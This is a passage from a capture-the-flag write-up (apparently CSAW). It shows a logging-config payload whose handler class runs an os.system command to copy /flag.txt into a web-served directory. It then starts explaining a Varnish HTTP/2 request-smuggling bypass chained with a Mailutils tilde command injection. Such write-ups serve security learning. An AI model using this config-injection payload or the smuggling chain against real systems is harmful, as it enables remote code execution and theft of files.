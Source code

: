 ```yaml
handlers=consoleHandler
qualname=simpleExample
propagate=0

[handler_consoleHandler]
class=__import__('os').system('cat /flag.txt > /app/application/static/images/de5fb214024af96b9f49ace64886c5/payload_ca36a4c20fafe498f263')
level=DEBUG
formatter=simpleFormatter
args=(sys.stdout,)

[formatter_simpleFormatter]
format=%(asctime)s - %(name)s - %(levelname)s - %(message)s
```

I fired up my postman to execute that and here comes the flag !
![Flag](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608207/csaw/Flag_zjj7z6.webp)

## Smuggling Mail

![Smuggling mail](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608179/csaw/smuggling-mail_kotgch.webp)  

Going through the code, these are my findings:

- We got a **varnich** cache server.

![Smuggling-mail-varnish-conf](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608173/csaw/smuggling-mail-varnish-config_vlwtw8.webp)  

- A **hitch** TLS proxy accepting HTTP/2 requests.
![smuggling-mail-hitch-conf](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608177/csaw/smuggling-mail-hitch-conf_t1dsbh.webp)

A quick research on the **varnish** cache server and I found the **CVE-2021-36740**. Actually, the cache server which works as the "frontend" here passes the HTTP/2 to the backend which downgrades the request to HTTP/1 which will be handled as two requests. Yes, that's a H2.CL vulnerability also there is a cve that made me try to HTTP Smuggling exploit.

![smuggling-mail cve](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608178/csaw/smuggling-mail-cve_s6xc02.webp)

That's perfectly our case, we want to bypass the authentication condition in the **varnish** config.
![smuggling-mail to bypass](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608176/csaw/smuggling-mail-to-bypass_mlxaam.webp)

We can use the **/waitlist** endpoint for the original request but what do we want to do here ?
![smuggling-mail RCE code](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608176/csaw/smuggling-mail-rce-code_lze7hw.webp)  

So we want to reach the **/admin/alert** to trigger an RCE but how can we do it ? Some research and with the help of my teammate 'm0ngi' We found the last missing piece [Mailutils cve](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608179/csaw/smuggling-mail-mail-cve_vwprts.webp)

> We can **~ OUR_COMMAND**
